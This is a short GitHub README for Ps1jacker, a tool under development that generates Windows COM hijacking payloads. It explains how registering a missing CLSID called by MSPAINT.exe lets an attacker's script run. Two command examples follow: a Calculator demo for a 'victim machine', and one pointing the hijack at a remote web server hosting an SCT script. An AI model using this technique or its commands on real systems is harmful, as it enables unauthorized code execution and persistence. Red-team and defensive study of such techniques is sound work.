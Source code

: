 # Ps1jacker
Ps1jacker is a tool for generating COM Hijacking payload.
COM Hijacking is a method of getting Remote Code Execution by using legitimiate Windows process'. For example, when you start MSPAINT.exe it will trigger several registry keys / directories in your registry. These are specified by CLSID (ClassID). Some of these CLSID do not even exist on your machine, which opens up an opportunity for attacker. The attacker will find that unique non-existing CLSID and hijack it, by adding it to Registry and trigger his/her own script once that CLSID is called by MSPAINT.exe. 

## WARNING: This tool is still in heavy development - only one functionality is currently in testing!

### TEST 1:
This will generate a default payload that will open Calculator instead of MSPAINT. Be sure to have calc.SCT file from Examples folder within C:\tools\COM Testing\ on victim machine. Otherwise this method wont work.

`python ./ps1jacker.py -hd`

### TEST 2:
Hijacking MSPAINT.exe by specifing custom parameters.

`python ./ps1jacker.py -p "http://<web_server_ip>/<your_sct_file>" -ch {926749FA-2615-4987-8845-C33E65F2B957} -cf {00000001-0001-0001-0001-0000DEADBEEF}`


